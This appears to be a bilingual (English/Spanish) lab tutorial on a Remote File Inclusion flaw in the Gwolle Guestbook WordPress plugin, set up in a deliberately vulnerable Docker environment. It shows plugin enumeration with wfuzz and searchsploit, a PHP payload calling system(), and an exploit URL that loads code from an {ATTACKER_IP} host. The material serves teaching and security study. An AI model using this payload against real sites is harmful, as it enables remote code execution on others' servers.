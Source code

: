 The Remote File Inclusion (RFI) vulnerability is a security vulnerability where an attacker can include remote files in a vulnerable web application. This can allow the attacker to execute malicious code on the web server and compromise the system.

En un ataque de RFI, el atacante utiliza una entrada del usuario, como una URL o un campo de formulario, para incluir un archivo remoto en la solicitud. Si la aplicación web no valida adecuadamente estas entradas, procesará la solicitud y devolverá el contenido del archivo remoto al atacante.

Un atacante puede utilizar esta vulnerabilidad para incluir archivos remotos maliciosos que contienen código malicioso, como virus o troyanos, o para ejecutar comandos en el servidor vulnerable. En algunos casos, el atacante puede dirigir la solicitud hacia un recurso PHP alojado en un servidor de su propiedad, lo que le brinda un mayor grado de control en el ataque.

# Example

----
> The source to test the example below can be found here: [dvwp](https://github.com/vavkamil/dvwp).
> The [[WordPress]] plugin can be found here: [Gwolle Guestbook](https://es.wordpress.org/plugins/gwolle-gb/).
----

First of all, we are going to download and configure the *WordPress* example into [[Docker]]. We can check that the port occupied by *WordPress* is 31337, so go there and finish the setup.

Once configured, let's download *Gwolle* version 1.5.3. To do this we go to the download web page and replace the current version with the desired one. 

If we try to add the plugin to *WordPress* it will give us a write permission error on the wp-content folder. To fix this we need to go into the *Docker* container and change the owner of the folder to www-data:

```bash
docker exec -it dvwp_wordpress_1 bash

# We give permissions to the wp-content folder recursively
chown www-data:www-data -R wp-content/
```

This time if we try to activate the plugin it will not give us any error.

To be able to see as an attacker the plugins that are installed in *WordPress*, we can use the wfuzz tool with a [SecLists](https://github.com/danielmiessler/SecLists) dictionary:

```bash
# In this case we will use the colorized mode (-c) hiding 404 status codes and using 200 threads to launch 200 tasks using a dictionary
wfuzz -c --hc=404 -t200 -w SecLists/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt http://localhost:31337/FUZZ
```

We have seen that there is indeed a plugin called *Gwolle*, so we can search for its version and see if there is any vulnerability in *searchsploit*:

```bash
searchsploit gwolle
```

We can see that there is indeed a vulnerability for this version of *Gwolle* that allows *Remote File Inclusion*. Let's open the source code of the vulnerability to see how to exploit it:

```bash
searchsploit -x php/webapps/38861.txt
```

We see that the way to execute this script is by referring to the GET *abspath* parameter, so if we create a local file *wp-load.php* and load it remotely from the abspath parameter sharing it with Python, we could execute commands remotely.

```
http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[hackers_website]
```

We also see that in order to exploit this vulnerability, *allow_url_include* must be enabled, so we must enable it in the php.ini of our container :

```ini
allow_url_include = "on"
```

Finally we must restart the Docker container to apply the changes:

```bash
docker restart dvwp_wordpress_1
```

In principle we should already have everything ready to exploit the vulnerability, so we are going to create the file *wp-load.php* and share it with an HTTP server in Python. The PHP file can include for example the following:

```php
<?php
	system("whoami");
?>
```

Podemos ejecutar el PHP creado anteriormente de la siguiente manera:

```
python3 -m http.server 80

http://localhost:31337/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://{ATTACKER_IP}/
```

If everything went well we should be able to see the output in the browser.